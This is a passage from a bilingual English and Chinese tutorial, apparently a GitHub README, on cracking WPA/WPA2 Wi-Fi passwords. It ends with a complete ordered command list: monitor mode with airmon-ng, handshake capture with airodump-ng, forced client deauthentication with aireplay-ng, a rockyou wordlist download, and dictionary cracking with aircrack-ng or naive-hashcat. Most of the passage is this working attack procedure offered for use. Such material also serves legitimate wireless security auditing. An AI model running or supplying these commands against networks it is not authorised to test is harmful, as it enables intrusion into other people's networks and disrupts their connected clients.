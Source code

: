 Once you've sent the deauth packets, head back over to your `airodump-ng` process, and with any luck you should now see something like this at the top right: `[ WPA handshake: 9C:5C:8E:C9:AB:C0`. Now that you've captured a handshake you should be ready to [crack the network password](#cracking-the-network-password).
一旦你发送了解除认证数据包，回到你的`airodump-ng`进程，运气好的话你现在应该看到右上角：`[WPA握手：9C：5C：8E：C9：AB：C0`。 现在你已经捕获了握手，你应该准备好[破解网络密码](#crack-the-network-password)。

## List of Commands
## 命令列表

Below is a list of all of the commands needed to crack a WPA/WPA2 network, in order, with minimal explanation.
下面列出了破解WPA / WPA2网络所需的所有命令，以最少的解释为依据。

```bash
# put your network device into monitor mode
airmon-ng start wlan0

# listen for all nearby beacon frames to get target BSSID and channel
airodump-ng mon0

# start listening for the handshake
airodump-ng -c 6 --bssid 9C:5C:8E:C9:AB:C0 -w capture/ mon0

# optionally deauth a connected client to force a handshake
aireplay-ng -0 2 -a 9C:5C:8E:C9:AB:C0 -c 64:BC:0C:48:97:F7 mon0

########## crack password with aircrack-ng... ##########

# download 134MB rockyou.txt dictionary file if needed
curl -L -o rockyou.txt https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt

# crack w/ aircrack-ng
aircrack-ng -a2 -b 9C:5C:8E:C9:AB:C0 -w rockyou.txt capture/-01.cap

########## or crack password with naive-hashcat ##########

# convert cap to hccapx
cap2hccapx.bin capture/-01.cap capture/-01.hccapx

# crack with naive-hashcat
HASH_FILE=hackme.hccapx POT_FILE=hackme.pot HASH_TYPE=2500 ./naive-hashcat.sh
```

## Appendix
## 附录

The response to this tutorial was so great that I've added suggestions and additional material from community members as an [appendix](appendix.md). Check it out to learn how to:
对本教程的回应是非常好的，我已经添加了社区成员的建议和附加资料作为[附录](# appendix.zh.md)。看看如何：
